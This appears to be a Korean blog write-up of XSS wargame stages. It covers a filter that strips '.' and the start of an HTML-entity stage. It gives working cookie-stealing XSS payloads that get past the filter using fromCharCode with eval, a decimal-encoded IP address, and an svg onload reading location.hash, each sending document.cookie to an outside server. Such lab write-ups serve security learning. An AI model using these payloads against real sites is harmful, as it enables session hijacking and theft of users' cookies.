 ### Stage 27 - not `.`

딱 `.`만 필터링된다. 근데 생각해보면 `.`이 없으면 서버주소를 못 적고 `document.cookie`를 하는 것도 안됨.

그래서 `.`을 다른 방향으로 해야 되는 방향을 찾아야 됩니다.



**Payload 0x00**

`.`을 `dot`으로 바꿔서 진행할 수 있기 때문에, .자리에 `'dot'`을 넣고 서버는 eval함수 안에서 실행하도록 해도 됩니당.

```
q=<script>dot%20=%20String[%27fromCharCode%27](46);eval("location"%2bdot%2b"href='server addr?'%2bdocument"%2bdot%2b"cookie");</script>
```



**Payload 0x01**

이번 문제를 풀면서 알게 된게 있는데,
127.0.0.1와 같은 ip 형식을 long 형식으로 바꿔서 사용할 수가 있어요!

그러면 `.`이 필요없도록 변환이 가능하게 되더라고요!

> [ip to long site](http://www.smartconversion.com/unit_conversion/IP_Address_Converter.aspx)

`document.cookie`는 `document['cookie']`로도 가능하기 때문에 이런식으로 하면 기존과 비슷하게 xss를 성공할 수 있습니다!

```
q=%3Cscript%3Elocation[%27href%27]=%22http://757087622/?%22%2bdocument[%27cookie%27];%3C/script%3E
```



**Payload 0x02**

```
q=<svg/onload=with(location['hash']){url=slice(1);location=url%2Bdocument['cookie']}>#server addr
```



------



### Stage 34 - html 간접표현식


![img](https://blackperl-security.gitlab.io/img/post/2018-09-12-webtour-04/xss5_2.png)

```
<script&gt;alert(1)</script&gt;<input type=hidden>
```

기본적으로 xss 막을때 개발자들이 많이 사용하는 방식인 간접표현식입니다!
`>`을 간접표현식으로 표현해서 `>`로 구성되어있네요!

> [간접표현식](http://viewit.kr/169?category=379968)



**Payload 0x00**
